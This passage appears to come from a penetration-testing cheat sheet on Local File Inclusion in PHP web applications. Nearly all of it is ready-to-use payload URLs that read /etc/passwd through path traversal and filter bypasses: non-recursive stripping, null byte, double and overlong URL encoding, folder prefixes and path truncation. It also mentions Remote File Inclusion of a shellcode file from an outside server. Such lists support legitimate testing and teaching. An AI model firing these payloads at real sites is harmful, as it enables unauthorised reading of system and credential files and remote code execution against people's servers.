 ## Basic LFI and bypasses

All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also \(page=http://myserver.com/phpshellcode.txt\).

```text
http://example.com/index.php?page=../../../etc/passwd
```

### traversal sequences stripped non-recursively

```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

### **Null byte \(%00\)**

Bypass the append more chars at the end of the provided string \(bypass of: $\_GET\['param'\]."php"\)

```text
http://example.com/index.php?page=../../../etc/passwd%00
```

This is **solved since PHP 5.4**

### **Encoding**

You could use non-standard encondings like double URL encode \(and others\):

```text
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### From existent folder

Maybe the back-end is checking the folder path:

```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

### **Path truncation**

Bypass the append of more chars at the end of the provided string \(bypass of: $\_GET\['param'\]."php"\)

```text
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```
